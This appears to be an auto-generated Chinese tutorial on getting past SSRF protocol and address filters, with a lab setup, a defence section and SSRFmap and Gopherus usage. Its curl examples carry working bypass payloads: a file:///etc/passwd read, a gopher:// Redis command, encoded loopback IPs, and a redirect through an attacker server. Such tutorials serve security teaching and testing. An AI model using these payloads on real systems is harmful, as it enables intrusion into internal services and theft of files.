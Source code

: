 # SSRF协议限制绕过案例分析

## 1. 技术原理解析

### 1.1 SSRF概述
SSRF（Server-Side Request Forgery，服务器端请求伪造）是一种攻击者通过操纵服务器发起请求的漏洞。攻击者可以利用此漏洞绕过防火墙或访问内部网络资源，甚至进一步利用其他漏洞。

### 1.2 协议限制绕过机制
许多Web应用程序会对用户输入的URL进行过滤，以防止SSRF攻击。常见的过滤措施包括：
- 限制URL的协议（如只允许HTTP/HTTPS）
- 检查URL的域名（如只允许特定域名）
- 检查URL的IP地址（如只允许公网IP）

然而，攻击者可以通过多种方式绕过这些限制，包括：
- **协议混淆**：使用不常见的协议（如`file://`、`gopher://`）或协议别名（如`http://`与`HTTP://`）
- **域名解析绕过**：利用域名解析的特性（如`127.0.0.1.xip.io`解析为`127.0.0.1`）
- **IP地址编码**：使用IP地址的不同表示形式（如十六进制、八进制、点分十进制）

### 1.3 底层实现机制
SSRF协议限制绕过的核心在于服务器对用户输入的处理逻辑。如果服务器在处理URL时没有进行严格的验证，攻击者就可以通过构造特殊的URL来绕过限制。例如：
- **URL解析不一致**：不同库或工具对URL的解析方式可能不同，导致过滤失效。
- **DNS解析特性**：某些DNS服务（如`xip.io`）允许将任意IP地址嵌入域名中，从而绕过域名检查。

## 2. 变种和高级利用技巧

### 2.1 协议混淆
攻击者可以使用不常见的协议或协议别名来绕过协议限制。例如：
- **`file://`协议**：读取服务器上的文件，如`file:///etc/passwd`
- **`gopher://`协议**：发送自定义的TCP请求，如`gopher://127.0.0.1:6379/_*1%0d%0a$4%0d%0aPING%0d%0a`

### 2.2 域名解析绕过
利用域名解析的特性，攻击者可以将IP地址嵌入域名中，从而绕过域名检查。例如：
- **`xip.io`服务**：`127.0.0.1.xip.io`解析为`127.0.0.1`
- **`nip.io`服务**：`10.0.0.1.nip.io`解析为`10.0.0.1`

### 2.3 IP地址编码
攻击者可以使用IP地址的不同表示形式来绕过IP地址检查。例如：
- **十六进制**：`0x7f000001`表示`127.0.0.1`
- **八进制**：`0177.0.0.1`表示`127.0.0.1`
- **点分十进制**：`127.0.0.1`与`127.0.0.01`相同

### 2.4 URL重定向
攻击者可以利用URL重定向来绕过协议限制。例如：
- **HTTP重定向**：攻击者可以构造一个URL，该URL重定向到目标协议（如`gopher://`）
- **DNS重定向**：攻击者可以控制DNS服务器，将域名解析为任意IP地址

## 3. 攻击步骤和实验环境搭建指南

### 3.1 实验环境搭建
为了模拟SSRF协议限制绕过漏洞，可以搭建以下实验环境：
1. **Web服务器**：使用Apache或Nginx搭建一个简单的Web服务器，模拟存在SSRF漏洞的应用程序。
2. **目标服务**：在本地或内网中启动一个目标服务（如Redis、MySQL），用于验证SSRF攻击的效果。
3. **过滤规则**：在Web服务器上实现简单的URL过滤规则，模拟常见的SSRF防护措施。

### 3.2 攻击步骤
1. **探测漏洞**：尝试输入不同的URL，观察服务器的响应，判断是否存在SSRF漏洞。
2. **绕过协议限制**：使用协议混淆、域名解析绕过、IP地址编码等技巧，尝试绕过协议限制。
3. **验证攻击效果**：通过SSRF漏洞访问目标服务，验证攻击是否成功。

### 3.3 实际命令和代码示例

#### 3.3.1 协议混淆
```bash
curl 'http://vulnerable-server/ssrf?url=file:///etc/passwd'
curl 'http://vulnerable-server/ssrf?url=gopher://127.0.0.1:6379/_*1%0d%0a$4%0d%0aPING%0d%0a'
```

#### 3.3.2 域名解析绕过
```bash
curl 'http://vulnerable-server/ssrf?url=http://127.0.0.1.xip.io'
curl 'http://vulnerable-server/ssrf?url=http://10.0.0.1.nip.io'
```

#### 3.3.3 IP地址编码
```bash
curl 'http://vulnerable-server/ssrf?url=http://0x7f000001'
curl 'http://vulnerable-server/ssrf?url=http://0177.0.0.1'
```

#### 3.3.4 URL重定向
```bash
# 构造一个重定向到gopher://的URL
curl 'http://vulnerable-server/ssrf?url=http://attacker-server/redirect?to=gopher://127.0.0.1:6379/_*1%0d%0a$4%0d%0aPING%0d%0a'
```

## 4. 工具使用说明

### 4.1 SSRFmap
SSRFmap是一个自动化SSRF漏洞利用工具，支持多种协议和绕过技巧。
```bash
# 安装SSRFmap
git clone https://github.com/swisskyrepo/SSRFmap.git
cd SSRFmap
pip install -r requirements.txt

# 使用SSRFmap进行探测和利用
python ssrfmap.py -r request.txt -p url -m portscan
```

### 4.2 Gopherus
Gopherus是一个生成Gopher协议Payload的工具，支持多种服务（如Redis、MySQL）。
```bash
# 安装Gopherus
git clone https://github.com/tarunkant/Gopherus.git
cd Gopherus

# 生成Redis Payload
python gopherus.py --redis 127.0.0.1 6379
```

## 5. 防御措施

### 5.1 严格验证用户输入
- **协议白名单**：只允许特定的协议（如HTTP/HTTPS）
- **域名白名单**：只允许特定的域名
- **IP地址白名单**：只允许特定的IP地址

### 5.2 使用安全的URL解析库
- **避免不一致的URL解析**：使用统一的URL解析库，避免不同库之间的解析差异
- **严格处理重定向**：对重定向URL进行严格的验证，避免重定向到不安全的协议

### 5.3 网络隔离
- **限制内网访问**：将Web服务器与内网服务隔离，避免通过SSRF访问内网资源
- **使用防火墙**：配置防火墙规则，限制Web服务器的出站流量

## 6. 总结
SSRF协议限制绕过是一种复杂且危险的漏洞，攻击者可以通过多种方式绕过常见的防护措施。通过深入理解其技术原理和利用技巧，开发人员和安全专家可以更好地防御此类漏洞，保护Web应用程序的安全。

---

*文档生成时间: 2025-03-12 09:40:56*
